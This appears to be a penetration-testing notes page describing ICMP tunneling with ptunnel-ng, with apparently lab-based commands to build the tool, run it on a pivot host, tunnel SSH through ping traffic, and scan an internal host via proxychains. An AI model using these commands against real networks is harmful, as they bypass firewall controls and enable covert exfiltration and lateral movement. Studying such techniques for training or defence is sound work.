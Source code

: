 ## ptunnel-ng 


ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.


![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


### Setting Up & Using ptunnel-ng
```shell
$ git clone https://github.com/utoni/ptunnel-ng.git

# Building Ptunnel-ng with Autogen.sh
$ sudo ./autogen.sh 
```

### Transferring Ptunnel-ng to the Pivot Host

```shell
$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

### Starting the ptunnel-ng Server on the Target Host

```shell
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```

### Connecting to ptunnel-ng Server from Attack Host

```shell
$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

### Tunneling an SSH connection through an ICMP Tunnel
```
$ ssh -p2222 -lubuntu 127.0.0.1

```
### Enabling Dynamic Port Forwarding over SSH
```
$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```

### Proxychaining through the ICMP Tunnel
```
$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```
